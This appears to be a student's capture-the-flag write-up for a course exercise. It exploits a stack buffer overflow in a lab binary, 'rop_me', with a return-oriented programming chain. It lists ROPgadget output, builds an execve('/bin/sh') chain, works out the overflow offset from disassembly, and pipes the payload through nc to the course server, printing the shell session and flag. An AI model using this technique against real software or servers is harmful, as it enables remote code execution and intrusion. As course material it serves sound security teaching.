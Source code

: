 # Answer

## ROP gadgets:
The following gadgets are generated using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). With the following command: ROPgadget --binary rop_me  
Note here that these cannot all be found by inspecting the disassembled binary,
since that lists each command with the relevant number of arguments. i.e.
40121a-40121e is disassembled as  
```
40121a:       b8 58 c3 00 00          mov    eax,0xc358
```
but 40121b-40121c can instead be used as:  
```
40121b:       58                      pop    rax
40121c:       c3                      ret
```
as is done by the ROPgadget program:
```
0x0000000000401452 : pop r15 ; ret
0x000000000040121b : pop rax ; ret
0x000000000040144b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040144f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040112d : pop rbp ; ret
0x00000000004013dc : pop rdi ; cmp rdi, rax ; jne 0x4013e6 ; mov rax, rsi ; ret
0x0000000000401453 : pop rdi ; ret
0x0000000000401451 : pop rsi ; pop r15 ; ret
0x000000000040144d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401036 : push 0 ; jmp 0x401020
0x0000000000401046 : push 1 ; jmp 0x401020
0x0000000000401056 : push 2 ; jmp 0x401020
0x000000000040101a : ret
0x0000000000401169 : ret 0x8b48
0x00000000004013af : ror byte ptr [rdi], 5 ; ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040120f : sbb eax, 0x90fffffe ; pop rbp ; ret
0x0000000000401052 : shr byte ptr [rdi], cl ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x00000000004011d2 : sub al, byte ptr [rax] ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040146d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040146c : sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004013a2 : syscall
0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
0x00000000004010b5 : test eax, eax ; je 0x4010c0 ; mov edi, 0x404048 ; jmp rax
0x00000000004010f7 : test eax, eax ; je 0x401108 ; mov edi, 0x404048 ; jmp rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax
0x00000000004013ae : xor eax, eax ; syscall
0x00000000004013c1 : xor edi, edi ; mov rdx, rdi ; inc rdi ; ret
0x00000000004013ab : xor edi, edi ; xor rax, rax ; syscall
0x00000000004013ad : xor rax, rax ; syscall
0x00000000004013c0 : xor rdi, rdi ; mov rdx, rdi ; inc rdi ; ret
0x00000000004013aa : xor rdi, rdi ; xor rax, rax ; syscall
```
This allows for a smarter exploit.


## ROP chain

A ROP chain build using the above addresses could be:  
``` python
rop_chain = [0x40121b,  # pop rax ; ret
             0x3b,      # data - syscall number of execve
             0x401453,  # pop rdi ; ret
             0x402012,  # data - "/bin/sh" pointer from rop_me
             0x401451,  # pop rsi ; pop r15 ; ret
             0x404080,  # data - NULL pointer from rop_me
             0x4013c1,  # xor edi, edi ; mov rdx, rdi ; inc rdi ; ret
             0x4013a2]  # syscall
```

## Implementation
The above ROP chain is put in the script rop_inject.py which smashes the buffer and injects the rop chain.  

In order to find the correct offset for the binary is decompiled, and inspected:  
```
00000000004012f9 <vuln>:
  4012f9:       55                      push   rbp
  4012fa:       48 89 e5                mov    rbp,rsp
  4012fd:       48 83 ec 30             sub    rsp,0x30
  401301:       48 8d 05 19 0f 00 00    lea    rax,[rip+0xf19]        # 402221 <_IO_stdin_used+0x221>
  401308:       48 89 c7                mov    rdi,rax
  40130b:       e8 20 fd ff ff          call   401030 <puts@plt>
  401310:       48 8d 45 d0             lea    rax,[rbp-0x30]
  401314:       be 80 0c 00 00          mov    esi,0xc80
  401319:       48 89 c7                mov    rdi,rax
  40131c:       e8 83 00 00 00          call   4013a4 <read_from_stdin>
  401321:       48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax
  401325:       48 8b 45 f8             mov    rax,QWORD PTR [rbp-0x8]
  401329:       48 89 c6                mov    rsi,rax
  40132c:       48 8d 05 fd 0e 00 00    lea    rax,[rip+0xefd]        # 402230 <_IO_stdin_used+0x230>
  401333:       48 89 c7                mov    rdi,rax
  401336:       b8 00 00 00 00          mov    eax,0x0
  40133b:       e8 10 fd ff ff          call   401050 <printf@plt>
  401340:       90                      nop
  401341:       c9                      leave  
  401342:       c3                      ret    
```

looking at the vuln function, the stack pointer is offset by 0x30, and thus the
payload needs to start with 0x38 non zero bytes (overwriting the stack and 8
more bytes for RBP), and then the ROP chain.  
A python script is implemented which outputs the necessary number of bytes, and
then packs each of the addresses in the ROP chain.  

To perform the attack, the following command is then used:  
``` bash
(python rop_inject.py; cat) | nc rop.syssec.lnrd.net 1337
```

Which spawns a terminal. Executing a few commands, results in the following:  
``` console
felix@felix-laptop-20:~/courses/e21-syssec/au-syssec-e21-exercises/08_software_security_ii$ (python rop_inject.py; cat) | nc rop.syssec.lnrd.net 1337
to execute a program (e.g., a shell), you can use the execve syscall
- rax = 0x3b (syscall number)
- rdi = <pointer to the command> (e.g., "/bin/sh")
- rsi = <pointer to a NULL-terminated array of arguments> (e.g., pointer to a NULL pointer for no arguments)
- rdx = <pointer to a NULL-terminated array of environment variables> (e.g., pointer to a NULL pointer for no arguments)
useful values:
- string "/bin/sh" at address 0x402012
- pointer "(nil)" at address 0x404080
- readable/writable 1024 B array at address  0x4040a0
ROP me!
read 120 bytes from standard input


whoami
user
ls
flag.txt
rop_me
run.sh
cat flag.txt
flag{R0P_15_FuN}
```

revealing the flag to be: **flag{R0P_15_FuN}**
